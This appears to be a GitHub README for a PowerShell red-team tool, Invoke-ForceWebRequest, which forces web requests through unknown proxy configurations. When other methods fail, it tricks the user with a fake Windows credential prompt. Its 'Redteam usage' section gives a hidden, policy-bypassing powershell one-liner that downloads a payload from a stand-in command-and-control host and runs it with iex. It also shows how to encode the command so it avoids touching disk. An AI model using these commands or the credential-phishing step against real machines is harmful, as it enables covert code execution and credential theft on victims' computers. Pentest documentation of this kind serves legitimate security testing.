 # Invoke-ForceWebRequest (@daniel0x00)
This function will force an HTTP GET in a computer with unknow internet config, trying to download the URL by downloading it directly and, if it can't, then using default proxy credentials and .pac proxy list. If none o them works, **it will trick the user and request his credentials** using the Windows default credential prompt.

## Description

Normally this function should be used in a pentest environment, when you're running this code in a target computer where you don't know exactly what is the outbound internet config. Internally, Invoke-ForceWebRequest will use another two functions:
* [Invoke-BasicWebRequest](https://github.com/daniel0x00/basicwebrequest): another function written by me which allow me to create http webrequest with proxy config. Similar (but very basic) to Invoke-WebRequest native PowerShell function (which is only available on PowerShell v3+).
* [Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt): an improved version of this great function wrote by [@enigma0x3](https://github.com/enigma0x3)

## Usage

Using the function in a computer with no proxy or proxy with no authentication
```
PS C:\> . .\Invoke-ForceWebRequest.ps1
PS C:\> Invoke-ForceWebRequest google.com -DummyString html -Verbose
VERBOSE: Trying http get with method #1: simple request...

StatusCode Content
---------- -------
       200 <!doctype html><html itemscope="" itemtype="http://schema.org/WebPage" lang="es"><head><meta content="IE=edge" http-equiv="X-UA-Co...
``` 

Using the function in a computer that have an authenticated proxy, user will be prompt for a valid proxy credentials. Note that user will be prompt until he/she writes a valid credential.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/requesting-credentials.png "powershell webrequest proxy credentials")

When the user writes a valid credential, html will be returned.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/proxy-enabled.png "powershell webrequest proxy credentials granted")

 
## Redteam usage

From red-team point of view: let's say you are able to run some PowerShell code in the target machine through a VBA Macro or a malicious EXE, but you really don't know how the computer is connected to internet. So you run this payload to be sure you will get response from your target:
```
(assuming you wrote the script in the target computer to $env:temp folder)

C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -c "gc $env:temp\Invoke-ForceWebRequest.ps1 | out-string | iex; Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }"

    1: it will download code from URL comandandcontrol.com/payload.txt
    2: then it will check if the content of payload.txt is correct by checking a dummy-string that you know is inside payload.txt
    3: invoke (run) code of payload.txt (if you're a redteamer it will be some malicious code)
``` 

If you do not want to touch disk, you can also encode the entire function and the payload with [@samratashok](https://github.com/samratashok) nishang [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1), something like this:
```
1: Create a .ps1 file with the following, and call it for example 'temp.ps1'
    
    function Invoke-ForceWebRequest { ...... }

    Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }

2: Encode the entire file with @samratashok Invoke-Encode, which will create an 'encodedcommand.txt' file in your desktop:

    PS C:\> Invoke-Encode -DataToEncode C:\temp.ps1 -OutCommand

3: Copy the content of encodedcommand.txt and then use it in your PS code that you will execute in your target:

    C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -enc "ENCODED_COMMAND"
``` 
